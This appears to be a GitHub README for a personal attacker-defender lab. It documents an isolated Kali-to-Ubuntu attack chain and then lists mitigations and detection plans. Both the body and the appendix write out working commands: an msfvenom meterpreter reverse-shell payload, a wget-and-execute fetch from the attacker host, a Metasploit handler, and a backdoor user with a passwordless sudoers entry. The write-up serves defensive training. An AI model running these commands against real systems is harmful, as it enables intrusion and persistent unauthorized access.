 # ATTACKER-DEFENDER LAB

Author: Bobo Nikolov
Date: 27-10-2025
Status: In Progress (Defender / SecurityOnion phase next)


---


- Objective
Build isolated attacker <> victim lab to demonstrate reconnaissance, initial access, execution, persistence, and privilege escalation — then add a defender (SecurityOnion) to capture telemetry and create detections.

- Architecture and Scope
"lab_attacker" - Kali Linux(Internal Network(labnet)/NAT)IP 10.10.10.10
"lab_victim" - Ubuntu Linux(Internal Network(labnet)/Internal Network(intnet))IP 10.10.10.20
"Network" - Internal Network only(Isolated)
"Snapshot" - Created before testing and reverted again for repeatability.

NOTE: All work is performed on my VM's only!


---


  ## ENUMERATION 
  
(In linux terminal)Run:
nmap -sS -sV 10.10.10.20
'evidence/2025-10-27_05-52_AM_Screenshot_Enumeration_ .png'


---


  ## INITIAL ACCESS AND EXECUTION

 - Summary
Created a small Linux meterpreter ELF payload on attacker host, served it via HTTP server, fetched and executed it on the victim, then handled the incoming meterpreter session from Metasploit.

 - Artifacts / screenshots
Payload creation: 'evidence/2025-10-27_15-32-08_Payload_Creation_Initial_Access_Execution.png'
Serving payload: 'evidence/2025-10-27_15-38-08_Serving_Payload_Initial_Access_Execution.png'
Payload downloaded on victim: 'evidence/2025-10-27_15-42-04_Payload_On_Victim_Initial_Access_Execution.png'
Exploit/run and handler: 'evidence/2025-10-27_15-47-45_Exploit_Run_And_Waiting_Initial_Access_Execution.png'
Successful execution(meterpreter/shell proof)- 'evidence/2025-10-27_15-58-31_Successful-Execution_Initial-Access-Execution.png'

 - What I did
Generated a Linux ELF reverse-TCP payload on the attacker:
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -O shell32.elf

 - Served the payload from attacker
python3 -m http.server 8000 --bind 10.10.10.10

 - On the victim fetched and executed it 
wget http://10.10.10.10:8000/shell32.elf -O /tmp/shell && chmod +x /tmp/shell

 - Started a multi handler on Metasploit
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 4444


---


   ## PERSISTANCE
   
 - Summary
To demonstrate persistance detection and to create realistic defender telemetry for the upcoming SecurityOnion phase, a benign backdoor user was created and a sudoers entry added. All were documented and snapshot was reverted.

 - Artifacts / Screenshots
-Persistance (new user created): 'evidence/2025-10-27_17-59-25_Persistance-New-User_Persistance.png'

 - Commands Executed
sudo useradd -, -s /bin/bash backdoor_user //Creating a new user
echo 'backdoor_user:P@ssword123!' | sudo chpasswd //Setting a password

// Add sudoers entry (NOPASSWD) to simulate privilege-capable persistence

echo 'backdoor_user ALL=(ALL) NOPASSWD:ALL' | sudo tee /etc/sudoers.d/backdoor_user
sudo chmod 440 /etc/sudoers.d/backdoor_user


---


   ## PRIVILEGE ESCALATION
   
 - Summary
After intitial access, local privilege escalation was demonstrated - minimal proof (whoami / id) captured to validate root access. This was performed only to verify impact for detection engineering.

 - Artifact / Screenshot
-Privilege escalation(root obtained): 'evidence/2025-10-27_18-49-33_Privilege-Escalation.png'

 - Proof commands / notes
// From the interactive shell on meterpreter > shell
whoami
id

//In some cases a known local vector was used and 'sudo /bin/bash' or similar verified root:
sudo /bin/bash
whoami //lead to root


---


   ## CONCLUSION

This lab demonstrated a complete attacker workflow in an isolated environment: reconnaissance, payload creation and delivery, successful remote code execution, a persistence demonstration, and local privilege escalation (proof-of-concept). The aim was not to cause damage but to produce realistic telemetry and artifacts that a defender can use to tune detections and playbook responses.

The environment was fully isolated and snapshotted before testing; all changes were reverted after evidence capture. This project serves as a foundation for the defender phase (SecurityOnion), where I will ingest network and host telemetry and author detection rules.


---


   ## LESSION'S LEARNED AND MITIGATION

  ### Takeaways
  
- Simple file-download + execute flows are a high-risk vector (e.g. `wget` + `chmod` + run). Prevent by restricting outbound HTTP to unapproved hosts and enforcing execution policies.
- Creation of sudoers/NOPASSWD entries is a common persistence pattern — monitor `/etc/sudoers.d/` and user creation events.
- Local privilege escalation vectors (SUID binaries, misconfigured services) remain a rapid path to full compromise — remove unnecessary SUID/privileged binaries and harden kernel/service updates.

  ### Recommended mitigation
  
- Block unneeded inbound services; harden public-facing services.
- Enforce least privilege and MFA for administrative access.
- Instrument hosts with sysmon/auditd and forward to your SIEM; create alerts for: unexpected `wget`/`curl` + `chmod +x`, new `/etc/sudoers.d/` files, and new user creation.
- Add network egress restrictions to limit direct payload fetch from attacker-controlled HTTP servers.


---


  ### Next steps (roadmap)

- SecurityOnion integration (planned): deploy sensor/manager, ingest Zeek/Suricata logs, simulate the attack again, and capture detection telemetry.  
- Detection engineering: write Sigma/Suricata rules and Splunk/SO correlation searches for this scenario.  
- Lateral movement (optional): expand the lab to include a second internal host to demonstrate lateral movement and network-based detection. (WIP — planned for next iteration)


---


  ## Appendix – Commands & Artifacts

Important commands used (sanitized)

```bash
# Recon
nmap -sS -sV 10.10.10.20

# Payload creation
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell32.elf

# Serve payload
python3 -m http.server 8000 --bind 10.10.10.10

# Victim (lab-only)
wget http://10.10.10.10:8000/shell32.elf -O /tmp/shell && chmod +x /tmp/shell && /tmp/shell

# Persistence (lab-only)
sudo useradd -m -s /bin/bash backdoor_user
echo 'backdoor_user:Password123!' | sudo chpasswd
echo 'backdoor_user ALL=(ALL) NOPASSWD:ALL' | sudo tee /etc/sudoers.d/backdoor_user
sudo chmod 440 /etc/sudoers.d/backdoor_user



